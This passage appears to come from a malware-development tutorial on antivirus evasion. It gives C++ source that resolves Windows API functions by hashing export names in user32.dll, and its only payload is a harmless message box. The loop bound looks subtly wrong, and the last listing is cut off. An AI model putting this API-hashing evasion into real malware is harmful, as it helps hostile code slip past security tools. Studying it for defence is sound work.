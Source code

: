 ```cpp
int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

![av](/assets/images/45/2022-03-25_11-10.png){:class="img-responsive"}    

The full source code of our malware is:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
```